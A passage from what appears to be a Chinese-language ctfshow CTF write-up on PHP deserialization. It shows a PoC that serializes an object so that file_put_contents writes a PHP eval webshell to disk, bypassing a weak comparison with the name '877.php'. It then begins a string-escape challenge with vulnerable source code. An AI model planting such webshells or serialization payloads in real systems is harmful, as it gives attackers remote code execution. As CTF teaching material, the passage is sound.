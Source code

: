    0x36d十进制为877，那么其与`877`+ `字符`进行弱比较，经本地测试就会返回true，但是在php8就不行了

目的就是赋值username和password为文件名和文件内容，最终利用file_put_contents写马，
而弱比较可以通过赋文件名为877xxxxx来绕过

poc：

```php
<?php

class ctfshowvip{
    public $username='877.php';
    public $password='<?php eval($_POST[1]);?>';
}


$a = new ctfshowvip();
echo urlencode(serialize($a));
```

## 262 字符逃逸

### 解法一

index.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 02:37:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 16:05:38
# @message.php
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}
```